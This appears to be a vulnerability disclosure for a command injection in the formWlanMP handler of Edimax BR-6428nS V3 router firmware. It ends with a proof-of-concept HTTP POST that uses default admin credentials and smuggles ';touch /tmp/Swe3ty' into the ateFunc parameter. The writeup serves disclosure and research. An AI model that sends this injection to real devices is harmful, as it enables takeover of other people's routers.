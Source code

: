 # Edimax wireless_routers_n300 Command Injection
## BR-6428nS V3 Firmware
Firmware Version: BR6428NSv3_1.20
You can download Firmware at this [website](https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_n300/br-6428ns_v3) and use FirmAE to simulate the router environment.
![](https://img.lovesandy.cc/usr/uploads/2022/11/988029035.png)

## Description
There is a command injection in `formWlanMP` Function of binary file webs.
![](https://img.lovesandy.cc/usr/uploads/2022/11/535536997.png)
![](https://img.lovesandy.cc/usr/uploads/2022/11/1880992564.png)
After obtaining the POST parameter, it is directly incorporated into the system function for execution without checking and filtering
![](https://img.lovesandy.cc/usr/uploads/2022/11/3033735612.png)

PS
You must pass basic verification before you can exploit this vulnerability
can find the user/passwd in [website](https://www.edimax.com/edimax/mw/cufiles/files/download/QIG/BR-6228nS_BR-6478nS_v3/BR-6428nSv3_BR-6228nSv3_TW_QIG.pdf)
![](https://img.lovesandy.cc/usr/uploads/2022/11/171193399.png)
![](https://img.lovesandy.cc/usr/uploads/2022/11/2425134361.png)

# POC
```
POST /goform/formWlanMP HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==
Connection: close
Referer: http://192.168.2.1/status.asp
Cookie: language=14
Upgrade-Insecure-Requests: 1

ateFunc=1;touch%20/tmp/Swe3ty&submit-url=%2Findex.asp

```
